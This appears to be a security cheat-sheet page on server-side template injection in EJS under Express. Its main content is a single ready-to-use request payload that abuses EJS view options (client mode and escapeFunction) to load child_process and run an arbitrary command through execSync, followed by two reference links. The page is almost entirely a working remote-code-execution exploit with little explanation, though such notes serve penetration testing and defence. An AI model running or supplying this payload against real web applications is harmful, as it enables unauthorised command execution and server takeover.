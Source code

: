 ```yaml
---
title: EJS SSTI (Express)
---
```


### TL;TR

```
settings[view options][client]=true&settings[view options][escapeFunction]=1;return global.process.mainModule.constructor._load('child_process').execSync('[COMMAND]').toString();
```

### References

- https://github.com/mde/ejs/issues/735
- https://eslam.io/posts/ejs-server-side-template-injection-rce/

